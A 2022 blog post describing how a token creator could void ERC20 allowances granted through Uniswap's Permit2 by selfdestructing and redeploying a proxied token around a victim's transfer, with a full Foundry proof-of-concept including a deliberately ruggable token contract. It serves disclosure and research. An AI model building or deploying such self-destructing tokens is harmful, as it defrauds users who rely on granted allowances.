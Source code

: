 +++
author = "merkleplant"
title = "Rugging ERC20 Allowances via Permit2"
date = "2022-11-21"
+++

On November the 17th Uniswap released a new generation token approval contract - [`Permit2`](https://github.com/Uniswap/permit2).

`Permit2` is an exciting new piece of infrastructure enabling token approval
management independent of the ERC20 token implementation itself.

However, it also enables a new rug vector to steal allowances via sandwich
_selfdestruct_-ing and redeploying the token.
<!--more-->

**Disclaimer**: The presented rug vector is **not** a security issue in the
`Permit2` contract! I'm writing this article as I didn't hear about
such a rug vector before and wanted to share my findings.

## Introduction to `Permit2`

Via `Permit2` it is possible to manage token approvals outside of the ERC20
token itself. The contract supports more configurations for approvals, such
as time based approvals, then a default ERC20 token.

In order for a user to enable the `Permit2` contract to manage its allowances,
the contract needs to have approval to spend the user's tokens.

A user can either approve infinite tokens to the contract using `type(uint).max`
(interpreted in most ERC20 implementations as being infinite) or some finite
amount.

Note that the `Permit2` functionality can be disabled at any time by settings
its allowance back to zero.


## About `solmate` and notorious opcodes

`Permit2` uses the highly-optimized [`solmate`](https://github.com/transmissions11/solmate)
library's `ERC20` implementation and `SafeTransferLib`. As you probably know,
the ERC20 standard itself has some weaknesses concerning, among others, the
transfer of tokens.

In order to not having to handle ERC20's transfer issues by hand, most
project nowadays use some "`SafeERC20TransferLib`", with the most popular ones
being the from [OpenZeppelin](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/utils/SafeERC20.sol)
and [`solmate`](https://github.com/transmissions11/solmate/blob/main/src/utils/SafeTransferLib.sol).

One major difference between the two libraries is that OpenZeppelin checks
whether a contract exists, i.e. the address' code size is non-zero, before
calling ERC20's transfer function on that address, while `solmate` abdicates
that check.

Due to the definition of the EVM's [call](https://www.evm.codes/#f1?fork=grayGlacier)
opcode, this leads to the unfortunate situation that each transfer of ERC20
tokens called on an empty, i.e. non-existing, contract succeeds.

Another infamous opcode defined in the EVM is [`selfdestruct`](https://www.evm.codes/#ff?fork=grayGlacier) with which
a contract can destroy itself, i.e. removing its code together with its storage.
`selfdestruct`, especially in composition with the [`create2`](https://www.evm.codes/#f5?fork=grayGlacier)
opcode challenges the immutability guarantees of contracts and leads to
[interesting new concepts](https://0age.medium.com/the-promise-and-the-peril-of-metamorphic-contracts-9eb8b8413c5e).


## The Idea

Recapping the last paragraph, `Permit2` is an external ERC20 allowance
management contract that continues working even if the token itself stops
existing.

Via the combination of `selfdestruct` and deterministic contract addresses
via `create2` there exists a mechanism to destroy and redeploy tokens again to
the same address.

Last but no least, using already well known [Proxy](https://hackmd.io/@devtooligan/yAcademyGuideToProxies)
patterns, i.e. separating a contract's storage from its implementation, it is
possible to keep the token's storage during a _destruct-and-redeploy_ of a token.

Digesting all these puzzle pieces leads to the possibility for a token creator
to approve token allowances to users via `Permit2`, just to rug these allowances
from the user again by destroying the token before a user's spending
transaction, while being able to redeploy the token to the same address again
afterwards.

Furthermore, having private mempools for deterministic transaction ordering and
proxy patterns for separating implementation and storage available, this leads
to a new, and for unsophisticated users laborious recognizable, rug vector.


## Proof-of-Concept

Below is a PoC implementation of the allowance-rug a token owner (or any
address being able to destroy the token and knowing the `create2` salt) can carry
out via the combination of `selfdestruct`-able tokens and `Permit2`.

To run the code, clone [this repo](https://github.com/pmerkleplant/Permit2-AllowanceRug)
and run `forge install && forge test --match-test "testAllowanceRugSandwich" -vvvvv`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "forge-std/Test.sol";

import {Permit2} from "../src/Permit2.sol";

import {ERC20} from "solmate/tokens/ERC20.sol";

import {TransparentUpgradeableProxy} from
    "openzeppelin-contracts/contracts/proxy/transparent/TransparentUpgradeableProxy.sol";
import {Create2} from "openzeppelin-contracts/contracts/utils/Create2.sol";

contract AllowanceTransferRugTest is Test {
    Permit2 permit2;

    RuggableERC20 token;
    address impl;

    address alice = address(0xCAFE);
    address eve = address(0xDEAD);
    address eveProxyAdmin = address(0xDEAD2);

    function setUp() public {
        permit2 = new Permit2();

        // Eve deploys the token implementation via create2.
        // This enables her not having to change the proxy's implementation
        // after a redeployment.
        vm.prank(eve);
        impl = Create2.deploy(uint256(0), bytes32("salt"), type(RuggableERC20).creationCode);

        // The token itself is managed via a proxy to not delete the token's
        // storage during a redeploy.
        token = RuggableERC20(
            address(
                new TransparentUpgradeableProxy({
                _logic: impl,
                admin_: eveProxyAdmin,
                _data: bytes("")
                })
            )
        );

        // Eve holds a bunch of tokens.
        token.mint(eve, 1_000e18);

        // Eve enables Permit2 and approves tokens to Alice via Permit2's
        // AllowanceTransfer functionality.
        vm.startPrank(eve);
        {
            token.approve(address(permit2), type(uint256).max);
            permit2.approve(address(token), alice, 1_000e18, type(uint48).max);
        }
        vm.stopPrank();
    }

    // This function should be executed via a private mempool, enabling Eve to
    // deterministically sandwich Alice's allowance.
    function testAllowanceRugSandwich() public {
        // Eve destroys the token implementation contract.
        _destroyTokenImplementation();

        // Alice spends allowance (without receiving tokens).
        vm.prank(alice);
        permit2.transferFrom(eve, alice, 1_000e18, address(token));

        // Eve redeploys the token implementation.
        _redeployTokenImplementation();

        // Token exists and it's storage did not change.
        assertEq(token.balanceOf(eve), 1_000e18);

        // Alice spent her Permit2 allowance...
        (uint160 amount, /*expiration*/, /*nonce*/ ) = permit2.allowance(eve, address(token), alice);
        assertEq(amount, 0);

        // ...without having received any tokens.
        assertEq(token.balanceOf(alice), 0);
    }

    function _destroyTokenImplementation() internal {
        // Note that selfdestruct is executed at the end of a tx while a foundry
        // test is always executed in one tx (see Issue [1543](https://github.com/foundry-rs/foundry/issues/1543)).
        //
        // To simulate the selfdestruct, we set the proxy's implementation to an
        // "empty" contract. However, OZ disallows setting the implementation to an
        // EOA, i.e. contract with no code.
        //
        // To simulate a contract with no code the "empty" contract only
        // implements an empty fallback.
        address empty = address(new Empty());

        vm.prank(eveProxyAdmin);
        TransparentUpgradeableProxy(payable(address(token))).upgradeTo(empty);

        // Real call would be:
        // vm.prank(eve);
        // token.destroy();
    }

    function _redeployTokenImplementation() internal {
        // Note to just change the token's implementation back to the real
        // implementation. This is due to foundry's missing feature of being
        // able to test selfdestruct.
        vm.prank(eveProxyAdmin);
        TransparentUpgradeableProxy(payable(address(token))).upgradeTo(impl);

        // Real call would be:
        // vm.prank(eve);
        // Create2.deploy(uint256(0), bytes32("salt"), type(RuggableERC20).creationCode);
    }
}

contract RuggableERC20 is ERC20 {
    address public owner;

    constructor() ERC20("Ruggable", "RUG", uint8(18)) {
        owner = msg.sender;
    }

    // Should of course not be publicly callable outside of PoC.
    function mint(address to, uint256 amount) public {
        _mint(to, amount);
    }

    function destroy() external {
        require(msg.sender == owner, "!owner");
        selfdestruct(payable(msg.sender));
    }
}

contract Empty {
    fallback() external {}
}

```
